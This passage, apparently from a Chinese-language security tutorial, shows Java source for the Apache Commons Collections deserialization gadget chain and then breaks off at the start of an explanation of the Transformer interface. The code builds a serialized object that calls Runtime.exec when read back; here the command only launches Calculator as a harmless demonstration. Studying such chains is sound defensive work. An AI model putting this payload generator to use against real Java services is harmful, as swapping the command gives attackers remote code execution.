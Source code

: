 ```
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
public class test3 {
    public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Calculator.app" }) };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "value");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        GeneratePayload(Reverse_Payload(),"obj");
        payloadTest("obj");
    }
    public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

我们先来看一下Transformer接口，该接口仅定义了方法transform\(Object input\)：
